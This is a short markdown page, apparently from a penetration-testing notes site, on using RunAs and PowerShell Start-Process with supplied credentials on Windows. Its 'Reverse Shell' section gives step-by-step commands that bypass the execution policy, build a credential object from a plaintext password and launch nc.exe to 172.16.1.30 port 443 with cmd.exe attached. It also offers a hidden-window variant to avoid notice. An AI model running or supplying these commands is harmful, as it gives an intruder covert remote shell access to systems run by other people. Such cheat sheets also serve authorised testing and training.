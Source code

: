 ```yaml
---
title: RunAs
parent: General Usage
layout: default
nav_order: 2
---
```


## Reverse Shell
1. First get a powershell, or `powershell -ep bypass`
2. `$secpasswd = ConvertTo-SecureString "Password" -AsPlainText -Force`
3. `$mycreds = New-Object System.Management.Automation.PSCredential ("domain.com\username", $secpasswd)`
4. `Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -Credential $mycreds`
5. (Optional), can replace step 4 with hidden window:\
   `Start-Process -FilePath powershell.exe -argumentlist "-w hidden -c C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -Credential $mycreds`

## Command only
`runas /env /profile /user:domain\user "command to run"`